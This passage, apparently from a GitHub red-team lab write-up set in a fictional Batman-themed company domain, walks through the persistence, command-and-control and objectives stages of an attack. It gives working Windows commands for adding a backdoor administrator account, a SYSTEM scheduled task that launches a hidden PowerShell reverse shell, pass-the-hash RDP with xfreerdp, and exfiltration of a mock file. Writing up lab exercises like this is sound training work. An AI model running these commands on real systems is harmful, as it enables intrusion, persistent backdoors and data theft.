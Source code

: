 ## 🧪 5. Installation (Persistence)

**New User Creation:**
```cmd
net user Joker Pass123 /add
group localgroup administrators Joker /add
```

**Scheduled Task Backdoor:**
```cmd
schtasks /create /tn "Updater" /tr "powershell.exe -w hidden -File C:\Users\Public\revshell.ps1" /sc onlogon /ru SYSTEM
```

📸 **Screenshots:**

*Created admin user*
![creating persistance by creating new user with admin rights](https://github.com/user-attachments/assets/8556d582-78bb-466e-acb9-f9983654485b)

*Backdoor task configured*
![saving reverse shell script on target pc to run as scheduled task on startup as backdoor](https://github.com/user-attachments/assets/961cb01e-0d1c-4d7b-92d7-6e42936bf2ca)
![reverse shell script saved as scheduled task on startup, backdoor installed](https://github.com/user-attachments/assets/67f66438-8865-47ec-bb6f-0910c6b53283)

---

## 🛠️ 6. Command & Control (C2)

We will utilize the extracted DMP file to RDP via pass-the-hash onto the target machine and move laterally to R&D from there.

We have established persistance with a reverse powershell and scheduled task to reconnect the reverse shell on startup, this will ensure that we maintain connectivity to the target at all times. 


---

## ✨ 7. Actions on Objectives

**Pass-the-Hash RDP:**
```bash
xfreerdp /u:Barbara.HR /d:WAYNE /pth:<NTLM_HASH> /v:172.203.221.2
```

**Post-RDP Enumeration:**
```cmd
net user /domain
```

- Identified `Lucious.R&D`
- Accessed his profile and files
- Found and exfiltrated `Batmobile-Schematics.bmp`

📸 **Screenshots:**

*RDP session via NTLM hash*
![after passing the hash and RDP onto barbara we look for other domains and we found Lucious R D](https://github.com/user-attachments/assets/dc33ff0f-4aef-4b15-b95b-d5025edb2882)

